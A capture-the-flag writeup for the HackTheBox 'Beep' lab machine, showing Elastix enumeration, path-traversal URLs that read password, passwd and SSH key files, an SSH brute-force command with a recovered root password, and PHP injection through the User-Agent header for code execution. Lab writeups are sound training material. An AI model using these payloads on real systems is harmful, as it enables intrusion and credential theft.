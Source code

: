 # HackTheBox Beep Writeup

![date](https://img.shields.io/badge/date-01.20.2019-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)  
![web category](https://img.shields.io/badge/category-web-lightgrey.svg)
![score](https://img.shields.io/badge/score-0-blue.svg)
![solves](https://img.shields.io/badge/solves-2012-brightgreen.svg)

## Summary
You can pop out the box in three ways

    1. Use local file inclusion and get root password and user. 
    2. Modify the local file inclusion exploit to get code execution.
    3. Use PBX exploit.
    4. Use shell shock.

## root flag

## Detailed solution

### nmap target(10.10.10.7)

    > nmap -sC -sV -oA 10.10.10.7

Nmap scan result is as follows (Omit some less used port.): 
    
    Nmap scan report for promote.cache-dns.local (10.10.10.7)
    Host is up (0.29s latency).
    Not shown: 988 closed ports
    PORT      STATE SERVICE    VERSION
    22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
    | ssh-hostkey:
    |   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
    |_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
    25/tcp    open  smtp       Postfix smtpd
    |_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
    80/tcp    open  http       Apache httpd 2.2.3
    |_http-server-header: Apache/2.2.3 (CentOS)
    |_http-title: Did not follow redirect to https://promote.cache-dns.local/
    443/tcp   open  ssl/https?
    10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
    |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
    Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

### Open web service on port 443 to see if there is anything interesting.

1. See logo and get the software info.
2. Check copyright info to see if outdated.
3. Check source code of web page and see if there is anything about application version.

### Use dirbuster to get detailed info about the web app.

1. Choosing a medium wordlist is fine.
2. Remember to unselect the **Be Recursive** choose form.
3. 10 threads are fine.
4. Or using `dirb https://10.10.10.7/ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -w` cmdline.
5. Open `https://10.10.10.7/admin/`, click **Cancel** and get a Free PBX page. Now you can 
see Free PBX version is **2.8.1.4** and google it with **FreePBX 2.8.1.4 changelog**.
6. Open `https://10.10.10.7/help/`, and check **system/Bakup/Restore** to get some version info.
7. Check logo info.
    1. `curl -k https://10.10.10.7/themes/elastixneo/images/elastix_logo_mini.png -o elastix.png` 
    2. `exiftool elastix.png`

### Search exploits using searchsploit and exploit using local file inclusion.

    > searchsploit elastix
    > searchsploit -x 
    > searchsploit -x exploits/php/webapps/37637.pl


### Collect detailed info on target machine and ssh it.
    
Step 1. Copy the line to ip bar 

    https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action 
then save the possible passwords in amportal.conf file.

Step 2. Replace the file with `/etc/passwd` and get user info on target machine.

    https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action 
then delete the **nologin** user in passwd and save the left.

Step 3. The last step is using hydra to get target ssh login info.
    > hydra -L users -P pw ssh://10.10.10.7

Scanning result:

    [22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE

**Then you get it!**

### Check ssh configuration files to make it clear if target machine is blocking us.

1. Check `/etc/pam.d/system-auth` file.
2. Check `/etc/fail2ban/jail.conf` file.
3. Check `/proc/self/status` file.
    1. `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//proc/self/status%00&module=Accounts&action`
    2. Here is the result:
    
           Uid:    100 100 100 100
           Gid:    101 101 101 101
    3. Then check `/etc/passwd` file and get the user associated with the Uid, Gid.`(100:101)`
    4. Next check `/var/lib/asterisk/.ssh/id_rsa` file to get the priv key associated with
    the user.
4. Automatize the scanning file process.    
    1. **Crtl+I** to send intercepted request to intruder.
    2. **Remove $**
    3. **Add $** to pair around the string you want to attack.
    4. Switch to Payloads panel to load payload string files.
    5. Start attack.

### Why is elastix vulnerable?
  
    @include("include/language/$language.lang.php");

### Check `/proc/self/environ` file and change `User-Agent` in request header to get code
    execution.

    1. `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//proc/self/environ%00&module=Accounts&action`
    2. Change **User-Agent** to `<?php echo "hello"; ?>`
    3. You get code exuction on target machine.
